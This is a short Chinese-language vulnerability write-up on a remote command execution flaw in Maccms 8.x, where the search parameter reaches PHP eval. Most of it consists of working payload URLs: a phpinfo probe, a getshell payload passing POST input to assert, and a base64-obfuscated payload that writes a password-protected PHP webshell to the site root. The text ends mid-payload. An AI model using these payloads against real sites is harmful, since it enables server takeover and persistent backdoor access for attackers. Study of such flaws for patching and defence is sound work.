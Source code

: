 Maccms 8.x(苹果cms)命令执行漏洞
===============================

一、漏洞简介
------------

搜索页面搜索参数过滤不严 导致直接eval执行PHP语句，前台命令执行可getshell

二、漏洞影响
------------

Maccms 8.x

三、复现过程
------------

payload：

    http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A}

![](./.resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId24.png)

getshell payload（a）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

    POST

    a=phpinfo()

![](./.resource/Maccms8.x(苹果cms)命令执行漏洞/media/rId25.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

    http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A
